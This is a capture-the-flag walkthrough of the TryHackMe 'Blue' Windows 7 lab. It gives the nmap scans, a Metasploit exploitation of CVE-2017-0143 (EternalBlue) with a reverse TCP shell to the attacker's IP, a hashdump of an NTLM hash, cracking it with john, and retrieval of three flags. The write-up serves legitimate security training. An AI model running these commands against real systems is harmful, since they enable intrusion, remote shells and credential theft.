# Blue

## General Information

<h3>Difficulty:  </h3>

<h3> Operation System: Windows</h3> 

<h3> Date of resolution: 18/06/2025 </h3>

<h3> Link VM: <a href="https://tryhackme.com/room/blue" target="_blank">Blue</a></h3>

### *Read the document in Spanish* <a href="blue.md">Blue</a>

## Recognition

TryHackme provides us with the IP of the target machine.

## Scanning for open ports

### TCP port scanning

The command we always use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```
<p align="center"> 

</p>

<p align="center"> 

</p>

<div align="center">

| Open port | Service      | Version                                                 |
| --------- | ------------ | ------------------------------------------------------- |
| 135       | msrpc        | Microsoft Windows RPC                                   |
| 139       | netbios-ssn  | Microsoft Windows netbios-ssn                           |
| 445       | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds |
| 3389      | tcpwrapped   | -                                                       |
| 49152     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                   |
| 49153     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                   |
| 49154     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                   |
| 49158     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                   |
| 49159     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                   |

</div>

### UDP port scanning

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE    |
| --------- | ---------- |
| 137       | netbios-ns |

</div>

## Exploration

Next, we will try to detect any vulnerability with nmap using the following command:

```
nmap --script smb-vuln* -p445 <Ip de la victima> -Pn
```

<p align="center"> 

</p>

I'm looking for information about this vulnerability on this page, searching for the CVE name in the search engine: <a href="https://www.cvedetails.com/cve/CVE-2017-0143/" target="_blank">CVE-2017-0143</a>

<p align="center"> 

</p>

## Exploitation

Next, we will use metasploit

And we look for the vulnerability by **its name or by the CVE**

```
search CVE-2017-0143
```

<p align="center"> 

</p>

```
use 0
show options
```

<p align="center"> 

</p>

We would need to complete:

RHOTS --> IP Mv victim
RPORT--> Vulnerable port of MV victim
LHOST --> Attacking Mv IP
LPORT --> Listening port

```
set RHOSTS 10.10.188.205
set LHOST 10.8.139.36
set PAYLOAD windows/x64/shell/reverse_tcp
show options
run
```

<p align="center"> 

</p>

```
hashdump
```

<p align="center"> 

</p>

In a separate terminal, I copy this:

```
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

I save it as **hash.txt**, and run the following command:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

--format=NT: specifies that the hashes are of type NTLM.

NTLM refers to the type of hash that is generated when a user sets a password in Windows

<p align="center"> 

</p>

**I'm doing all this because the tryhackme page asks me to**

Then, in the **Meterpreter** session, I write the following:

```
shell
```

<p align="center"> 

</p>

Then, I stand at the root.

<p align="center"> 

</p>

To display the contents of the first flag, I use the following command:

```
type flag1.txt
```

<p align="center"> 

</p>

Then to search for the next flag2.txt, I will use the following command:

```
dir flag2.txt /s /b
```

/s --> Search all subdirectories\
/b --> Show only the file path

<p align="center"> 

</p>

We are located on the following path **\Windows\System32\config\flag2.txt**

```
type flag2.txt
```

<p align="center"> 

</p>

Then to find the last flag, we use this last command:

```
dir flag3.txt /s /b
```

<p align="center"> 

</p>

Then, to view it we use this other command:

```
type Users\Jon\Documents\flag3.txt
```
<p align="center"> 

</p>

**Important note:** To use this command "*dir **<file_name>** /s /b*" it is recommended to do so from the root folder **/**, so that it searches in all subdirectories.